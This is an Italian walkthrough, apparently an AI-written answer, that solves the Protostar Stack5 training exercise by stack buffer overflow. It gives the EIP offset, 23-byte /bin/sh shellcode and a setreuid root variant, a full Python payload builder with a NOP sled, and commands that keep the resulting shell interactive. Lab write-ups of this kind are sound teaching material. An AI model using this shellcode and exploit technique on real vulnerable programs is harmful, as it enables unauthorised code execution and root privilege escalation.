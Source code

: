 Di seguito trovi un percorso *passo‑passo* (con comandi pronti) per risolvere **Protostar – Stack5** eseguendo shellcode tramite overflow di buffer.

---

## 0) Contesto (cosa stiamo sfruttando)

* Il binario vulnerabile è in **`/opt/protostar/bin/stack5`** e la pagina dell’esercizio fornisce anche gli *hints* (usare shellcode altrui, `\xcc` per debuggare). ([exploit.education][1])
* Su Protostar **ASLR e NX sono disabilitati**, quindi la *stack* è eseguibile e gli indirizzi sono stabili (utile per posizionare il salto). ([exploit.education][2])
* Il sorgente è minimale: buffer da 64 byte e `gets(buffer);`, quindi overflow sicuro. ([exploit.education][1])

---

## 1) Trova l’offset fino all’EIP

Nel frame di `main`, l’EIP salvato viene sovrascritto dopo i 64 byte di `buffer` + 12 byte (EBP e allineamenti): **in pratica a 76 byte**. Puoi verificarlo velocemente:

```bash
gdb -q /opt/protostar/bin/stack5
# (opzionale) stile Intel
(gdb) disas main
(gdb) r < <(python -c 'print "A"*76')     # con Python2
# oppure:
(gdb) r < <(python3 - <<'PY'
import sys; sys.stdout.buffer.write(b"A"*76)
PY
)
```

Con 76 ‘A’ il programma va in **SIGSEGV**: è il segnale che hai il controllo dell’EIP. Un write‑up mostra proprio che a 76 byte il processo crascia (e come abilita i core dump per ispezionare lo stack). ([DEV Community][3])

> Nota: invece della “conta” manuale, puoi anche usare un pattern/cyclic e poi `cyclic_find`, ma per Stack5 76 è il valore che troverai. ([kevindoubleu.github.io][4])

---

## 2) Scegli uno **shellcode** affidabile (/bin/sh)

Per x86 a 32 bit va benissimo il classico `execve("/bin/sh")` (23 byte), ad esempio questo (Shell‑Storm/Exploit‑DB):

```text
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xB0\x0b\xcd\x80
```

(23 byte) ([shell-storm.org][5], [Exploit Database][6])

> Se vuoi **garantire i privilegi root** quando il binario è SUID, usa uno shellcode che fa prima `setreuid(0,0)` e poi `execve("/bin/sh")` (33 byte). ([Exploit Database][7])

---

## 3) Strategia di salto: “ret‑into‑sled” *dopo* l’EIP

È la via più semplice e robusta in Protostar:

1. **Metti una NOP sled e lo shellcode *dopo* l’EIP** (cioè nei byte che seguono la return address sovrascritta).
2. **Sovrascrivi l’EIP** con l’**indirizzo** che **punta dentro la NOP sled**.

Per ricavare l’indirizzo preciso:

```bash
(gdb) disas main
# troverai il ret a un indirizzo tipo 0x080483da (dipende dalla build)
(gdb) b *0x080483da
(gdb) r
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
(gdb) x/8wx $esp
```

A quel breakpoint, la word a `$esp` contiene `TTTT` (l’EIP salvato corrotto), e **`$esp+4`** contiene `UUUU` (il primo dword *dopo* l’EIP). Scegli quell’**indirizzo di `$esp+4`** come target: ci faremo atterrare il salto dentro la NOP sled che metteremo subito dopo l’EIP. Un write‑up mostra esattamente questa tecnica con gli stessi marker (“TTTT”, “UUUU”). ([kevindoubleu.github.io][4])

---

## 4) (Opzionale) Usa `\xcc` per confermare il salto

Gli *hint* ufficiali suggeriscono di usare `\xcc` (INT3) per “fermare” lanciando un **SIGTRAP** se l’EIP atterra dove vuoi. Metti qualche `\xcc` al posto della sled/shellcode per provare in `gdb`, poi rimuovili nella versione finale. ([exploit.education][1])

---

## 5) Costruisci il **payload** (Python 3)

**Sostituisci `RET_ADDR` con l’indirizzo che hai letto in gdb (di solito `$esp+4` al breakpoint sul `ret`)**:

```bash
python3 - <<'PY' > payload
import struct, sys

offset = 76  # bytes fino all'EIP
ret_addr = 0xBFFFF7B0  # <-- METTI QUI l'indirizzo che hai trovato (esempio: $esp+4)
nop     = b"\x90" * 200

shellcode = (b"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53"
             b"\x89\xe1\x99\xb0\x0b\xcd\x80")

payload = b"A"*offset + struct.pack("<I", ret_addr) + nop + shellcode
sys.stdout.buffer.write(payload)
PY
```

L’idea (molto usata nei write‑up) è identica al seguente esempio reale: 76 ‘A’, return address che punta dentro la sled posizionata **dopo** l’EIP, e poi lo shellcode per `/bin/sh`. ([DEV Community][3])

> Se vuoi prima fare la prova con `\xcc`, sostituisci `shellcode = b"\xcc"*4` e lancia dentro `gdb`: dovresti vedere **SIGTRAP** quando il salto riesce (come suggerito dagli hint). ([exploit.education][1])

---

## 6) Esegui ed ottieni la shell (mantenendo STDIN aperto)

Per avere una shell interattiva via pipe, usa il “trucco del **cat**” per tenere aperto lo **stdin**:

```bash
# Variante interattiva
( cat payload; cat ) | /opt/protostar/bin/stack5
# ora digita comandi, es.:
id
```

Questo schema è mostrato anche in una guida a Stack5 (mantiene vivo lo stdin per interagire con la shell appena eseguita). ([noobfromPitt][8])

Se vuoi verificare al volo senza interattività:

```bash
cat payload | /opt/protostar/bin/stack5
```

---

## 7) Perché funziona (riassunto)

* `gets()` scrive oltre i 64 byte di `buffer`, sovrascrivendo **EBP** e poi la **return address**.
* Con 76 byte arriviamo a controllare l’EIP. (Mostrato in analisi e write‑up.) ([DEV Community][3], [kevindoubleu.github.io][4])
* Iniettiamo **NOP sled + shellcode** nello stack e facciamo puntare l’EIP dentro la sled: la CPU scivola (“sled”) fino allo shellcode e **esegue `/bin/sh`**. (Shellcode standard 23B.) ([shell-storm.org][5])
* Su Protostar la **stack è eseguibile** e **ASLR è off**, quindi la tecnica “ret‑into‑stack” funziona senza ROP. ([exploit.education][2])

---

## 8) Note pratiche / troubleshooting

* **Indirizzi leggermente diversi dentro/fuori gdb**: capita per differenze d’ambiente. Se noti mismatch, aumenta la NOP sled (es. 400–800 byte) o prendi un indirizzo un po’ più “nel mezzo” dei tuoi NOP. Un post mostra che bastano *sled* di qualche decina/centinaio di byte per assorbire gli scostamenti. ([Stack Overflow][9])
* **SUID e privilegi**: se la shell dovesse *droppare* privilegi, usa lo shellcode con `setreuid(0,0)` prima di `execve`. ([Exploit Database][7])
* **Debug con core**: se vuoi analizzare i crash dei SUID, abilita i core dump come nell’esempio ( `ulimit -c unlimited` e `printf 1 > /proc/sys/fs/suid_dumpable` ) per poi aprire il core in gdb. ([DEV Community][3])

---

### Riferimenti che ho usato

* Pagina ufficiale “Stack Five” (per percorso del binario e *hints*). ([exploit.education][1])
* Pagina principale di Protostar (spiega che **NX/ASLR sono disabilitati**). ([exploit.education][2])
* Write‑up con conferma dell’**offset 76**, breakpoint su `ret` e strategia “salta nel post‑EIP”. ([DEV Community][3], [kevindoubleu.github.io][4])
* Shellcode `/bin/sh` (23 byte). ([shell-storm.org][5])
* Shellcode `setreuid(0,0) + /bin/sh` (33 byte) per SUID. ([Exploit Database][7])

[1]: https://exploit.education/protostar/stack-five/ "Stack Five :: Andrew Griffiths' Exploit Education"
[2]: https://exploit.education/protostar/?utm_source=chatgpt.com "Protostar :: Andrew Griffiths' Exploit Education"
[3]: https://dev.to/hextrace/jump-into-local-shellcode-protostar-stack5-57mb "Jump into shellcode (protostar - stack5) - DEV Community"
[4]: https://kevindoubleu.github.io/writeups/exploit-education/protostar/stack/stack5/ "Protostar - stack5 - doubleu"
[5]: https://shell-storm.org/shellcode/files/shellcode-827.php?utm_source=chatgpt.com "Linux/x86 - execve /bin/sh shellcode - 23 bytes - Shell-Storm.org"
[6]: https://www.exploit-db.com/exploits/37384?utm_source=chatgpt.com "Linux/x86 - execve(/bin/sh) Shellcode (23 bytes) (1) - Exploit-DB"
[7]: https://www.exploit-db.com/exploits/13379?utm_source=chatgpt.com "Linux/x86 - setreuid(0,0) + execve(\"/bin/sh\", [\"/bin/sh\", NULL ..."
[8]: https://noobfrompitt.github.io/protostar-stack5/ "Protostar stack5 walkthrough - noobfromPitt"
[9]: https://stackoverflow.com/questions/72487665/how-i-can-get-this-memory-address-in-protostar-stack-5-ctf?utm_source=chatgpt.com "How i can get this memory address in Protostar stack 5 CTF"

